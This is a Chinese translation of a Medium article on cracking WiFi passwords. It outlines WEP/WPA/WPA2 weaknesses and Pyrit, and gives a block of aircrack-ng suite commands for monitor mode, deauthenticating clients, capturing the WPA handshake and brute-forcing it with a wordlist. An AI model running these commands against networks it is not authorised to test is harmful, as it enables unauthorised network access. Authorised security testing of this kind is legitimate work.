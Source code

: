 # Wifi 破解

> 原文：<https://medium.com/hackernoon/wifi-cracking-48ad5594ba60>

> 请注意，侵入不属于您或您没有权限的网络是非法的。以下文章中的所有网络都是我自己所有的，或者与网络管理员达成一致，这些暴力攻击将会被尝试。

![](img/bb981491208af4ba76e8bf940756a860.png)

Successful crack

## 🆕更新的文章🆕

读完这篇文章后，点击这里查看更全面更新的第二篇文章

[](/@david.richard.holtz/wifi-cracking-ii-with-tutorial-5159b1ca385) [## WIFI 破解 II(附教程)

### ⚒️如何破解 WIFI 密码

medium.com](/@david.richard.holtz/wifi-cracking-ii-with-tutorial-5159b1ca385) 

# 大意

入侵网络有很长的历史。自从无线网络出现以来，一个显而易见的挑战就是保护这种不可见网络上的数据。已经有各种尝试来保护这种现象。这些安全尝试有几种风格，称为:

*   有线等效保密(WEP)
*   保护无线电脑网络安全系统(WPA)
*   保护无线电脑网络安全系统二世(WPA2)

所有这些方法在一段时间内都被证明是安全的，但都被破解了——要么是由于实际的安全缺陷，要么是实施错误，要么是固有的构建缺陷。我们的现代标准 WPA2 遭受建设问题检查 KRACK 攻击—【https://www.krackattacks.com/ 

# 攻击媒介

*   设置硬件监听所有数据包
*   捕获网络帧
*   选择基站和客户端
*   监听基站流量
*   作为客户端发送验证帧
*   捕捉到**的握手！**
*   暴力攻击——愚蠢地还是聪明地

## 基本命令

```
**airmon-ng start wlan0
airodump-ng mon0
airodump-ng --bssid 08:86:30:74:22:76 -c 6 --write WPAcrack mon0
aireplay-ng --deauth 100 -a 08:86:30:74:22:76 mon0
aircrack-ng WPAcrack-01.cap -w /pentest/passwords/wordlists/darkc0de**
```

# 软件

## Pyrit

![](img/f6cf5eef1362d6573a565b819e2827f5.png)

Pyrit Logo

> “Pyrit 允许您在空间-时间权衡中创建预计算的 [WPA/WPA2-PSK](https://secure.wikimedia.org/wikipedia/en/wiki/Wi-Fi_Protected_Access) 认证阶段的大规模数据库。通过 [ATI-Stream](http://ati.amd.com/technology/streamcomputing/) 、 [Nvidia CUDA](http://www.nvidia.com/object/cuda_home_new.html) 和 [OpenCL](http://www.khronos.org/opencl/) 使用多核 CPU 和其他平台的计算能力，这是目前针对世界上最常用的安全协议之一的最强大的攻击。”

![](img/b0505f14a5e489c8bed75814168b1036.png)

DeAuth attack

很棒的教程(不是用 Pyrit 而是同样的思路)-[https://null-byte . wonder how to . com/how-to/hack-wi-fi-cracking-wpa 2-PSK-passwords-using-air crack-ng-0148366/](https://null-byte.wonderhowto.com/how-to/hack-wi-fi-cracking-wpa2-psk-passwords-using-aircrack-ng-0148366/)